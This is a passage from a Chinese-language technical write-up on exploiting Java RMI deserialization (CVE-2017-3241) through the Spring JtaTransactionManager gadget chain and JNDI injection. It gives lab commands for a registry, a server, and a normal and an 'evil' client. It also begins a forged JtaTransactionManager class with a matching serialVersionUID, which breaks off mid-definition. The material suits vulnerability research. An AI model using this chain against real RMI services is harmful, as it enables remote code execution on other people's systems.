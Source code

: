     |
    +---any
    |       Message3.class
    |
    \---other
            PublicKnown3.class (fake版)

在test1目录执行:

rmiregistry \
-J-Djava.class.path="spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar" \
1099

java \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer3 any

在test2目录执行:

java \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeNormalClient3 any "msg from client"

java \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeEvilClient3 any "msg from client"

14) JtaTransactionManager利用链

CVE-2017-3241本质上是Java反序列化漏洞。各种PublicKnown们有各自的利用链，有
些利用链涉及JNDI注入，比如:

org.springframework.transaction.jta.JtaTransactionManager

14.1) fake版JtaTransactionManager.java

```java
/*
 * javac -encoding GBK -g -cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:." fake/JtaTransactionManager.java
 *
 * 包名必须一样
 */
package org.springframework.transaction.jta;

import any.Message3;

/*
 * 参照fake版PublicKnown3实现fake版JtaTransactionManager
 */
public class JtaTransactionManager extends Message3
{
    /*
     * fake版JtaTransactionManager的这个值必须与normal版
     * JtaTransactionManager相同。
     */
    private static final long   serialVersionUID    = 4720255569299536580L;

    /*
     * 为了进一步触发JNDI注入漏洞，fake版必须定义该成员，并能对之赋值
     */
```
